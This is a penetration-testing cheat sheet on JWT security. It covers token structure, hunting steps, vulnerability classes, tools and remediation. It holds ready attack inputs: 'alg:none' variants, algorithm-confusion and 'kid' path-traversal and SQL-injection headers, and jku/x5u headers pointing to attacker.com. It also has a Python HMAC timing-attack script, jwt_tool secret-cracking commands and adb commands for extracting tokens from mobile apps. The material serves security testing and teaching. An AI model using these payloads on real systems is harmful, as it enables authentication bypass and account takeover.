


# JSON Web Tokens (JWT) Security

## Shortcut

### Mis-Configurations

- Adding, removing and modifying claims
  - when pen-testing JWT tokens, make sure user can't set the algorithm to `none`
  - or is able to switch between `RSA` and `HMAC`
- Changing the signature algorithm
- Removing the signature entirely
- Brute-forcing a weak signature key
  - or maybe leaking the secret using XXE or SSRF
- you can also use [JWT Tool](https://github.com/ticarpi/jwt_tool)

### Read Sensitive Information

JWT token should be used for integrity not confidentiality

### Header Injection

Instructing the server which key to use when verifying the signature. Harden parsing and outbound fetches for:

- `jwk` (inline JWK) — rarely safe to accept from untrusted senders
- `jku`/`x5u` (remote keys) — pin domains, enforce TLS, short TTLs, and `kid` uniqueness
- `kid` (Key ID) — guard against injection (path traversal/SQLi), collisions, and cache poisoning

### Same Origin Policy

SOP prevents the malicious script hosted on a.com from reading the HTML data returned from b.com
This keeps the malicious script on A from obtaining sensitive information embedded in B.

## Mechanisms

JSON Web Tokens (JWT) are an open standard (RFC 7519) for securely transmitting information between parties as a JSON object. JWTs consist of three parts:

- **Header**: Specifies the token type and signing algorithm
- **Payload**: Contains the claims (statements about an entity)
- **Signature**: Verifies the token hasn't been altered

Common signing algorithms:

- **HS256/HS384/HS512**: HMAC + SHA-256/384/512 (symmetric)
- **RS256/RS384/RS512**: RSA + SHA-256/384/512 (asymmetric)
- **ES256/ES384/ES512**: ECDSA + SHA-256/384/512 (asymmetric)
- **PS256/PS384/PS512**: RSASSA-PSS + SHA-256/384/512 (asymmetric)
- **EdDSA (Ed25519/Ed448)**: Edwards‑curve Digital Signature Algorithm (asymmetric)
- **none**: Unsigned token (highly insecure)

Additional pitfalls:

- JWS/JWE confusion: accepting an encrypted token (JWE) where a signed token (JWS) is required, or failing open when encountering unexpected `typ`/`cty`.
- JWKS retrieval risks: SSRF via `jku`/`x5u`, insecure TLS validation, caching poisoned keys, `kid` collisions causing wrong key selection.
- Token binding: sender‑constrained schemes (DPoP, mTLS) incorrectly implemented allow replay from other clients.



## Hunt

### Identify JWT Usage

- Check for `Authorization: Bearer [token]` headers
- Look for cookies containing JWT structures
- Examine local/session storage in browser
- Identify token endpoints or authentication flows

### Inspect Token Structure

- Decode the token to examine claims (use jwt.io or BurpSuite JWT extension)
- Look for sensitive information in payload
- Check for unusual header parameters (`kid`, `jku`, `jwk`, `x5u`, etc.)
- Verify algorithm usage in header

### Testing for Vulnerabilities

- Modify claims and observe application behavior
- Test algorithm switching attacks
- Check signature verification
- Look for token expiration/validation issues
- Test for header injection vulnerabilities
- Attempt brute force attacks on weak secrets
- Probe JWKS endpoints: add duplicate `kid`, rotate keys to see if old keys still verify; attempt caching or 304-not-modified abuse.
- Test `x5u`/`jku` DNS rebinding, and misconfigured HTTP client validation.
- Try JWS/JWE content-type confusions and unexpected `crit` header usage.

## Vulnerabilities



### Algorithm Vulnerabilities

- **Algorithm None**: Some libraries still allow disabling signature validation (`alg:"none"`) when mis‑configured.
- **Algorithm Confusion**: Servers that mistakenly treat an RSA public key as an HMAC secret when `alg` is switched to HS\*, enabling attacker‑signed tokens.
- **Key ID Manipulation**: Exploiting `kid` to load wrong keys or inject file/SQL paths; enforce strict lookups and validation

### Signature Vulnerabilities

- **Weak Secrets**: Brute-forceable HMAC secrets
- **Missing Signature Validation**: Not verifying signature at all
- **Broken Signature Validation**: Implementation errors in signature checking

### Implementation Issues

- **Missing Claims Validation**: Not validating essential claims (`exp`, `nbf`, `aud`)
- **Insufficient Entropy**: Predictable JWT IDs or tokens
- **Lack of Expiration**: Tokens without expiration or with very long lifetimes
- **Insecure Token Transport**: Transmitting tokens over non-HTTPS connections
- **Debug Information Leakage**: Detailed error messages revealing implementation details

### Header Injection Attacks

- **JWK Header Injection**: Supplying a custom public key through the `jwk` header
- **JKU Manipulation**: Pointing the `jku` (JWK Set URL) to an attacker-controlled location
- **KID Manipulation**: Various attacks including SQL injection, path traversal, or command injection via the `kid` parameter
- **x5u Misuse**: Loading untrusted X.509 key URLs with lax TLS validation or redirects
- **JWKS Cache Poisoning**: Forcing caches to accept attacker keys via `kid` collisions or response header tricks

### Information Disclosure

- **Sensitive Data in Payload**: PII, credentials, or session details stored unencrypted
- **Claiming Processing Information**: Information about backends or services in claims

## Additional Attack Vectors

### Mobile App JWT Storage

- **Android**:
  - `SharedPreferences`: Check if world-readable (`MODE_WORLD_READABLE` deprecated but still found)
  - Location: `/data/data/<package>/shared_prefs/`
  - Keystore extraction: Root device or exploit app, extract keys
  - Backup extraction: `adb backup -f backup.ab <package>` (if allowBackup=true)
  - Tools: `Frida`, `objection`, `MobSF` for analysis
- **iOS**:
  - Keychain: Check `kSecAttrAccessible` attribute
    - `kSecAttrAccessibleAlways`: Accessible even when locked (insecure)
    - `kSecAttrAccessibleWhenUnlocked`: Better but extractable from backup
  - iTunes/iCloud backup extraction: Unencrypted backups expose Keychain
  - Jailbreak + Keychain-Dumper: Extract all keychain items
  - Tools: `Frida`, `objection`, `idb` for runtime analysis
- **React Native / Hybrid Apps**:
  - `AsyncStorage`: Stored in plain text, easily readable
  - Location: Android SQLite DB, iOS plist files
  - No encryption by default
- **Testing**:

  ```bash
  # Android - check SharedPreferences
  adb shell "run-as com.target.app cat /data/data/com.target.app/shared_prefs/auth.xml"

  # iOS - extract from backup
  idevicebackup2 backup --full /path/to/backup
  # Use plist/sqlite tools to extract JWT
  ```

### JWT Confusion Attacks

- **SAML-JWT Confusion**: Application accepts both SAML assertions and JWTs
  - Bypass SAML signature verification by sending JWT instead
  - Or vice versa - send SAML where JWT expected with weaker validation
- **API Key-JWT Confusion**: Endpoint accepts multiple auth methods

  ```bash
  # Try API key where JWT expected
  curl -H "Authorization: Bearer <api_key>" https://api.target/resource

  # Try JWT where API key expected
  curl -H "X-API-Key: <jwt_token>" https://api.target/resource
  ```

- **Session Cookie-JWT Hybrid**: App accepts either session cookie OR JWT
  - Test if session validation is weaker
  - Can you use an expired JWT with valid session cookie?
  - Or inject JWT claims into session cookie
- **OAuth Token-JWT Confusion**: OAuth access tokens vs ID tokens
  - Send ID token (JWT) to resource server expecting opaque access token
  - Resource server may not validate properly

### Timing Attacks on HMAC

- **Brute-force via Timing**:
  - HMAC verification can leak secret character-by-character via timing
  - Non-constant-time comparison: `if (signature == expected)`
  - Attack: Measure response time for different signature attempts
  - Tools: Custom scripts with microsecond precision timing
- **Exploit**:

  ```python
  import requests
  import time

  def time_request(signature):
      start = time.perf_counter()
      r = requests.get('https://target/api', headers={'Authorization': f'Bearer header.payload.{signature}'})
      return time.perf_counter() - start

  # Brute force first byte
  for byte in range(256):
      sig = bytes([byte]) + b'\x00' * 31
      t = time_request(sig.hex())
      # Character with longer response time is likely correct
  ```

### JWT in URL Parameters

- **Security Issues**:
  - Tokens in GET URLs logged in server logs, proxy logs, browser history
  - Leaked via `Referer` header when navigating to external sites
  - Exposed in browser history (F12 Network tab)
  - CDN/cache logs may store tokens
- **Testing**:
  ```bash
  # Check if API accepts token in URL
  curl "https://api.target/resource?token=eyJ..."
  curl "https://api.target/resource?access_token=eyJ..."
  curl "https://api.target/resource?jwt=eyJ..."
  ```
- **Exploitation**: Search server logs, proxy logs for exposed tokens
  - Check Wayback Machine for historical URLs with tokens
  - Monitor Referer headers sent to third-party analytics

## ETC

- **PASETO** – removes algorithm negotiation entirely and avoids confusion attacks.
- **Macaroons** – bearer tokens that include attenuable, caveat‑based delegation.
- **DPoP and mTLS** – bind tokens to the client to prevent replay; verify proofs on every request and enforce one‑time use semantics for nonces.

## Methodologies

### Tools

- **JWT.io**: For basic token inspection and debugging
- **Burp Suite JWT Scanner**: Automated testing of JWT implementations
- **JWT_Tool**: Comprehensive testing of JWT vulnerabilities (`python3 jwt_tool.py`)
- **jwtXploiter**: Advanced JWT vulnerability scanning
- **JWTear**: For tearing apart JWTs and testing vulnerabilities
- **jwt_killer**: Automated token testing with multiple attack vectors
- **c-jwt-cracker**: High-speed brute force for HMAC secrets (C implementation)
- **Burp Suite**: JWT Editor extension, Autorize for auth diffing, Auth Analyzer
- **jose/jwx libraries** (dev): enable strict modes to reproduce edge cases
- **Mobile Tools**: Frida, objection, MobSF (for extracting JWTs from mobile apps)

### Manual Testing Steps

1. **Decode and Inspect**:

   ```
   base64url_decode(header).base64url_decode(payload).signature
   ```

2. **Test "none" Algorithm**:

   ```
   {"alg":"none","typ":"JWT"}.payload.""
   {"alg":"None","typ":"JWT"}.payload.""
   {"alg":"NONE","typ":"JWT"}.payload.""
   {"alg":"nOnE","typ":"JWT"}.payload.""
   ```

3. **Algorithm Confusion**:

```
# Attempt to switch RS256→HS256 and abuse server using RSA public key as HMAC secret (if misconfigured)
{"alg":"HS256","typ":"JWT","kid":"expected-key"}.payload.<re-signed-with-public-key-as-secret>
```

4. **Kid Parameter Attacks**:

   ```
   {"alg":"HS256","typ":"JWT","kid":"../../../../dev/null"}
   {"alg":"HS256","typ":"JWT","kid":"file:///dev/null"}
   {"alg":"HS256","typ":"JWT","kid":"' OR 1=1 --"}
   ```

5. **JWK/JKU Injection**:

   ```
   {"alg":"RS256","typ":"JWT","jwk":{"kty":"RSA","e":"AQAB","kid":"attacker-key","n":"..."}}
   {"alg":"RS256","typ":"JWT","jku":"https://attacker.com/jwks.json"}
   ```

6. **x5u / crit Handling**:

```
{"alg":"RS256","typ":"JWT","x5u":"https://attacker.com/cert.pem"}
{"alg":"RS256","typ":"JWT","crit":["exp"],"exp":null}
```

6. **Brute Force HMAC Secrets**:

   ```
   python3 jwt_tool.py <token> -C -d wordlist.txt
   ```

7. **Testing Missing Validation**:
   - Remove or modify the expiration claim (`exp`)
   - Change issuer (`iss`) or audience (`aud`)
   - Modify token issuance time (`iat`) or not-before time (`nbf`)

### Automated Testing with JWT_Tool

```bash
# Basic token testing
python3 jwt_tool.py <token>

# Scanning for vulnerabilities
python3 jwt_tool.py <token> -M all

# Testing specific vulnerabilities
python3 jwt_tool.py <token> -X a     # Algorithm confusion
python3 jwt_tool.py <token> -X n     # null signature
python3 jwt_tool.py <token> -X i     # Identity theft
python3 jwt_tool.py <token> -X k     # Key confusion

# Cracking secrets
python3 jwt_tool.py <token> -C -d wordlist.txt
```

## Remediation Recommendations

- Use short‑lived access tokens and rotate refresh tokens frequently.
- Always validate `aud` (audience) and `iss` (issuer) claims.
- Enforce a maximum token length and disable JWE compression unless strictly required.
- Ensure the key material loaded for verification matches the `alg`; reject mismatches.
- Reject tokens that include unknown `crit` header parameters.
- Maintain a server‑side deny‑list keyed by `jti` for early revocation.
- For DPoP (`typ:"dpop+jwt"`) tokens, verify the proof binds to the HTTP request and enforce one‑time use.
- Validate JWKS over pinned TLS; disallow remote `jku`/`x5u` except for trusted domains; cache keys with short TTL and verify `kid` uniqueness.
- Disable `none` and prevent algorithm downgrades; pin `alg` per client and per issuer.
- Bind sessions to device when possible; rotate refresh tokens on every use and revoke the previous (refresh token rotation).
- Prefer `SameSite=Lax/Strict` HttpOnly cookies for web to reduce token exfil; avoid localStorage for access tokens.
